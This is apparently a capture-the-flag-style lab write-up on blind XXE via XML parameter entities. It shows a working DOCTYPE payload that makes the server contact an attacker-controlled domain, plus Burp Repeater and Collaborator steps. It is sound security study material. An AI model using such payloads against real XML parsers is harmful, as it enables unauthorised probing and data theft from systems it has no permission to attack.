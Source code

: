 ## Introduction
- Sometimes, XXE attacks using regular entities are blocked, due to some input validation by the application or some hardening of the XML parser that is being used. In this situation, you might be able to use XML parameter entities instead.
- XML parameter entities are a special kind of XML entity which can only be referenced elsewhere within the DTD.

**For present purposes, you only need to know two things**
First, the declaration of an XML parameter entity includes the percent character before the entity name:
```js
<!ENTITY % myparameterentity "my parameter entity value" >
```

And second, parameter entities are referenced using the percent character instead of the usual ampersand:
```js
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> %xxe; ]>
```
- This XXE payload declares an XML parameter entity called `xxe` and then uses the entity within the DTD.
- This will cause a DNS lookup and HTTP request to the attacker's domain, verifying that the attack was successful.

## Steps to solve lab
### Desc - Blind XXE with out-of-band interaction via XML parameter entities
**Our end goal** - 

1. Now, first send the `POST /product/stock` to burp "Repeater".
![[XXE10.png]]

**In Repeater** - 
![[XXE11.png]]

2. Now, add Burp collaborator domain with `<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> %xxe; ]>` to get a DNS as well as HTTP request to your burp Collaborator server.
![[XXE12.png]]


3. After sennding the above request, switch to Burp collaborator and click on "Poll Now" to see HTTP as well as DNS request.
![[XXE13.png]]

